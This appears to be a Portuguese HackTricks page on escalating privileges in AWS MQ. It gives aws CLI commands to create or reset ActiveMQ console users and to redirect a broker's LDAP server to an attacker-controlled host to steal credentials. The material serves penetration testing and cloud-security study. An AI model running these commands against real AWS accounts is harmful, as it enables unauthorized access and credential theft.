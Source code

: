 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

Para mais informações sobre MQ, consulte:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Com essas permissões, você pode **criar um novo usuário em um broker ActimeMQ** (isso não funciona no RabbitMQ):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impacto Potencial:** Acesso a informações sensíveis navegando pelo ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Com essas permissões, você pode **criar um novo usuário em um broker ActiveMQ** (isso não funciona no RabbitMQ):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impacto Potencial:** Acesso a informações sensíveis navegando pelo ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Se um broker estiver usando **LDAP** para autorização com **ActiveMQ**. É possível **alterar** a **configuração** do servidor LDAP usado para **um controlado pelo atacante**. Dessa forma, o atacante poderá **roubar todas as credenciais que estão sendo enviadas através do LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Se você conseguisse de alguma forma encontrar as credenciais originais usadas pelo ActiveMQ, poderia realizar um MitM, roubar as credenciais, usá-las no servidor original e enviar a resposta (talvez apenas reutilizando as credenciais roubadas você pudesse fazer isso).

**Impacto Potencial:** Roubar credenciais do ActiveMQ

{{#include ../../../banners/hacktricks-training.md}}
